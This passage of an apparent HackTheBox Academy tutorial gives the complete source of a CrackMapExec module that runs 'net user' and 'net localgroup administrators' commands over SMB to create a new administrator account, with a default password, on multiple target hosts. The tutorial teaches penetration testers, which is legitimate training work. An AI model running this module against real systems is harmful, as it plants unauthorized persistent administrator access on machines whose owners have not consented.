 Finally, our new module should look like this:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

class CMEModule:
    '''
        Created to teach HackTheBox Academy students how to create a module for CrackMapExec
        Reference: https://academy.hackthebox.com/

        Module by @juliourena 
    '''

    name = 'createadmin'
    description = "Create a new administrator account"
    supported_protocols = ['smb']
    opsec_safe = True
    multiple_hosts = True

    def options(self, context, module_options):
        '''
        USER    Choose a username for the administrator account. Default: plaintext
        PASS    Choose a password for the administrator. Default: HackTheBoxCME1337!
        '''

        self.user = "plaintext"
        if 'USER' in module_options:
            if module_options['USER'] == "":
                context.log.error('Invalid value for USER option!')
                exit(1)
            self.user = module_options['USER']

        self.password = "HackTheBoxCME1337!"
        if 'PASS' in module_options:
            if module_options['PASS'] == "":
                context.log.error('Invalid value for PASS option!')
                exit(1)
            self.password = module_options['PASS']

    def on_admin_login(self, context, connection):
        context.log.info('Creating user with the following values: USER {} and PASS {}'.format(self.user,self.password))
        command = '(net user ' + self.user + ' "' + self.password + '" /add /Y && net localgroup administrators ' + self.user + ' /add)'
        context.log.info('Executing command')
        p = connection.execute(command, True)
        context.log.highlight(p)
```

***

## Running Our Module

